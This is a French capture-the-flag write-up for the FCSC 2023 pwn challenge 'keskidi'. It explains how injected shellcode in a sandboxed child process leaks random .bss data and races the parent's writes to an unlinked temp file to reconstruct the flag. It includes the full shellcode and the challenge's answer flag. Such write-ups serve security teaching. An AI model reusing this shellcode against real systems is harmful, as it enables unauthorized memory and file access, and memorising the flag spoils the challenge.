

<p align="center">
  
</p>

Le binaire du challenge nous est fourni : [keskidi](files/keskidi)

Challenge très amusant, et frustrant, qui m'a demandé pas mal d'ajustements pour sortir le flag.

#### Fonctionnement du code

L'analyse du binaire montre que toutes les sécurités sont activées (+ASLR sur le serveur)

```bash
$ checksec keskidi
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Le binaire réalise plusieurs actions :
- création d'un fichier temporaire dans `/tmp`
- écriture de 0x1000 octets aléatoires dans ce fichier mais aussi dans la .bss
- lancement d'un processus fils (avec des droits réduits) qui va lire une entrée de l'utilisateur et l'exécuter (un shellcode est attendu)
- le processus père lit le fichier `flag.txt`, cherche chaque occurence de caractère du flag dans les 0x1000 octets aléatoires de la .bss et les remplace dans le fichier temporaire par des `0x00`


Le fichier temporaire étant aussi accessible pour le processus fils (et donc notre shellcode), l'idée va être :
- de dumper le random original depuis la .bss
- lire les modifications sur le fichier temporaire
- retrouver dans le random d'origine les caractères remplacés par des `0x00` pour reconstituer le flag.


#### Quelques points d'attention

Après la création du fichier temporaire, un appel à `unlink()` le détruit du file system, cependant (voir le man de la fonction) le filedescriptor reste ouvert et accessible pour le programme tant qu'il s'exécute.

On a une indication sur la taille du flag, qui sera précieuse :

```c
if ((int)sVar3 != 0x46) {
  perror("read: the flag must be 70-char long.");
  exit(1);
}
```

Droits du fichier temporaire : `iVar2 = fchmod(DAT_00104040,0666);`


Calcul des offsets :

Le processus fils appelle une fonction que j'ai appelée `mem_buffer` pour lire puis exécuter notre shellcode. A l'exécution de celui-ci (`CALL RAX`) `rip` est poussé sur la stack et contient l'adresse de l'instruction suivante dans `mem_buffer`.

On pourra s'en servir pour calculer les décalages avec l'adresse de `tmp_file` et l'adresse du random dans la .bss.


### Premier shellcode

- leak du numéro du filedescriptor du fichier temporaire (pour confirmer)
- leak des `0x1000` octets de random utilisés comme "masque"
- boucle infinie pour lire quelques octets du fichier temporaire

```c
if (c != (undefined *)0x0) {
  lseek(tmp_file,(__off_t)(c + -0x104060),0);
  write(tmp_file,&NULL_byte,1);
  syncfs();
  c = c + 1;
}
```

A chaque écriture la tête de lecture va pointer sur l'octer suivant celui écrasé par un NULL byte.

Dans le shellcode, je reviens d'un octet en arrière pour lire le NULL byte et quelques octets random.

Ces quelques octets permettent de rechercher cette même séquence dans le random originial, puis comparer l'octet précédent, s'il est non nul dans le random original il est récupérer comme caractère du flag.


Ce shellcode fonctionnait en local, mais difficilement en remote.

Plusieurs exécution donnaient des morceaux de flag :
```
FCSC5cda17Fc57{a5{ba21c8eb5a{aSa2b293c971704b2e2SFadSb23c38579f{a2F7FC
Cd71d7{S7231c8eb5a29c970423b73a78787d62e3075ed39ec3ab5d3fbc7cC494f4Fef
FCFC{5da751b72cb529c974b37de35e3e5d3fe8}6c
191f5e64e9ef4786964969¶7e79e4150f47f671861f6a5d61917a6a5456Ð6f7adf7b8e
FC431c8eb29c97042373a7d462eC3075ed39e3a5d3fbc4e8}
FSC{5cda71b72431c89c97473a7607a3fbc8}d
FC{5cda7f5ba4231c8eb5a29c97090b0414212353S3b73a7d46292C2e2e3075edScd38
F{a4238eb5a2959423b73a7d46e3075ed39ec0c3b5dbc49464Fe8}6c
FCS5cf5ba472423{31ac8eCeceb5e5aea2Cf7{fCdf5daf23c{141F297373b73a87d462ea3075ed1d39ec3ab5df8}F
F{a751241c85a29c970423b7d34353aSa7d4{4S46C62ec20df{a71S8fC87S7{c71eadf
FC{5cda7f51ba4724231c8eb5a29c9709S0420383e438b8574F1f8bF{bFaSb{9Fbe{b3


FCSC{da7f51ba47242c23b31c{d41S1b5cCfcdc8eb87b590423aedcfc}71F{2
FC524c8ea29c9708423b737aCaCa4a7d5d462e5305ed39ec3ab5{5d5dSd539{S4Fa14e
FCSC{5cdad51ba47243cS8eb5a29c970473a7d463079e39ec3b5d3fbcSdc14e0e8}
FCSC{5cda7f571d1a4{4724231cS8eb515a7a29c93970Sa84e823C3fb73a746e305ed3

FCSC{57f51ba472421{8480e79C0{e0e41d3FafFcfS787F92S2e43639e7be}{
FCSC{5cdafc51{7172d31cd8e2129C704d62e72939ab59dS1Sf4e8}3}e1}d
FCS{5cda7cf5afba2141cFa1bdbaCc237e43d4Ff36305CedaC35bc8c{4SFeCef8dC}C}c}S1CS193
```

En simplifiant le shellcode (`push pop` remplacés par des `mov` directs, `xor` pour mettre à zéro), le rendu était un peu meilleurs.

Je me suis dit que la race condition avec le processus père s'améliorait.

#### Second shellcode

Pour continuer j'ai ajouté un appel système a `sys_nanosleep` dans la boucle du shellcode, et j'ai joué avec la valeur du sleep pour essayer de caler ma boucle sur les opération d'écritures du processus père.

```python
shellcode="""

// constantes pour nanosleep
  mov r10, QWORD PTR [rsp]
  add r10, 0x2c88
  mov r12, r10
  add r12, 0x08
  mov QWORD PTR [r10], 0x0
  mov QWORD PTR [r12], 10000


// leak tmp_file descriptor
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2c80
  push SYS_write
  pop rax
  syscall

// leak random from .bss
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1000
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2ca0
  push SYS_write
  pop rax
  syscall

  lab:
// fseek(fd,-0x1,1)
  mov rdi, 4
  mov rsi, -0x1
  mov rdx, 1
  mov rax, 0x8
  syscall


// read(fd,rsp,0x5)
  mov rsi, rsp
  mov rdx, 0x5
  xor rax, rax
  syscall

// write(1, rsp, 0x5)
  mov rdi, 1
  mov rax, 1
  syscall

  //nanosleep
  mov rdi, r10
  mov rsi, r12
  mov rax, 35
  syscall
  jmp lab
"""
```


Avec quelques essais, le flag sort correctement :

```bash
python3 exploit3.py REMOTE
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] File descriptor b'\x04'
[*] Random data received : 4096
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2103
```
